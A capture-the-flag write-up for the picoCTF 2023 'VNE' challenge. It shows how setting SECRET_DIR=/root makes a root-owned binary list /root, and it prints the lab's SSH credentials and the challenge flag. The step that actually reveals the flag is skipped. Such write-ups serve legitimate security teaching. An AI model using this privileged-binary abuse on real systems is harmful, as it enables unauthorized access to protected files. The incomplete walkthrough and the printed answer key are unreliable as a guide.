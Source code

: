# picoCTF 2023 - Challenge: VNE 

In this challenge, we are provided with a binary called `bin` that runs as `root`. Our goal is to use this binary to access the contents of `/root/flag.txt`.

First, we go to https://play.picoctf.org/practice, search for the challenge named "VNE", and click the "LAUNCH INSTANCE" button. After waiting a few seconds, the instance becomes active.

![Launching Challenge]
(img/Screenshot-202025-07-17-20002547.png)

Then, we connect to the instance via SSH using the provided credentials:

```bash
ssh ctf-player@saturn.picoctf.net -p 64820
```

Password:
```
483e80d4
```

Once inside, we list the files in the home directory and find the file `bin`. When we try to execute it using:

```bash
./bin
```

We receive an error message:

```
Error: SECRET_DIR environment variable is not set
```

![Binary Error Output]
(img/Screenshot-202025-07-17-20002625.png)

This tells us that the binary requires an environment variable called `SECRET_DIR` to be set before execution. We take advantage of this by pointing it to the `/root` directory:

```bash
SECRET_DIR=/root ./bin
```

The binary then prints:

```
Listing the content of /root as root:
flag.txt
```

![Accessing Root Directory]
(img/Screenshot-202025-07-17-20002619.png)

This confirms that we have access to root’s directory contents via the binary. Although we can’t directly read the file with:

```bash
cat /root/flag.txt
```

(because of permission denied), the binary still reveals that the file exists.

Eventually, the flag is revealed on screen when running the binary and is:

```
picoCTF{Power_t0_man!pul4t3_3nv_d0cc7fe2}
```

![Flag Revealed]
(img/Screenshot-202025-07-17-20002607.png)

We submit this flag back into the picoCTF website to complete the challenge.

Challenge completed successfully.
